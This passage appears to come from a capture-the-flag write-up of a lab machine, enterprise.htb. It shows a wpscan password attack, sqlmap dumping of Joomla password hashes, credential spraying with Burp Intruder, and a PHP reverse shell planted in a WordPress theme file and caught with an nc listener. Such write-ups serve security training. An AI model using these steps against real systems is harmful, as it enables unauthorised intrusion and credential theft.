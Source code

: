 I'll try that in wp-login with username `william.riker`.
```bash
$ wpscan --url http://enterprise.htb/ -U william.riker -P ./wp-post-passwords --password-attack wp-login

[+] Performing password attack on Wp Login against 1 user/s
[SUCCESS] - william.riker / u*Z14ru0p#ttj83zS6
Trying william.riker / ZD3YxfnSjezg67JZ Time: 00:00:00 <===============================================================                                                               > (4 / 8) 50.00%  ETA: ??:??:??
[!] Valid Combinations Found:
    Username: william.riker, Password: u*Z14ru0p#ttj83zS6
```
And we can login as user william.riker.

### Dumping joomladb
Listing tables using this command shows `edz2g_users` table.
```bash
$ sqlmap -u http://enterprise.htb/wp-content/plugins/lcars/lcars_db.php?query=1 --batch --dump --threads 10 -dbms mysql -D joomladb --tables
```

Dumping `edz2g_users` table:
```bash
$ sqlmap -u http://enterprise.htb/wp-content/plugins/lcars/lcars_db.php?query=1 --batch --dump --threads 10 -dbms mysql -D joomladb -T edz2g_users -C username,password

Database: joomladb
Table: edz2g_users
[2 entries]
+-----------------+--------------------------------------------------------------+
| username        | password                                                     |
+-----------------+--------------------------------------------------------------+
| Guinan          | $2y$10$90gyQVv7oL6CCN8lF/0LYulrjKRExceg2i0147/Ewpb6tBzHaqL2q |
| geordi.la.forge | $2y$10$cXSgEkNQGBBUneDKXq9gU.8RAf37GyN7JIrPE7us9UBMR9uDDKaWy |
+-----------------+--------------------------------------------------------------+
```

I'm not able to crack those hashes.
I'll try spraying the users and passwords I collected until now to `http://enterprise.htb:8080/administrator/` which is joomla's login page I got earlier.

`geordi.la.forge ZD3YxfnSjezg67JZ` gives redirection when fired up in burp intruder. 
Rest give _"Username and password do not match or you do not have an account yet."_

Now, I can login to joomla admin panel.

# Shell for wordpress container
Go to Appearance -> Editor -> 404.php, edit and replace with your php reverse-shell.
Go to Home, click on a post. Change it's id to something non-existing.
Ex. [enterprise.htb/?p=999](http://enterprise.htb/?p=33)

```bash
$ rlwrap nc -lnvp 4444
Listening on 0.0.0.0 4444
Connection received on 10.10.10.61 58282
Linux b8319d86d21e 4.10.0-37-generic #41-Ubuntu SMP Fri Oct 6 20:20:37 UTC 2017 x86_64 GNU/Linux
 08:08:02 up 1 day, 15:29,  0 users,  load average: 0.00, 0.25, 0.67
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)

www-data@b8319d86d21e:/$ whoami
www-data
```
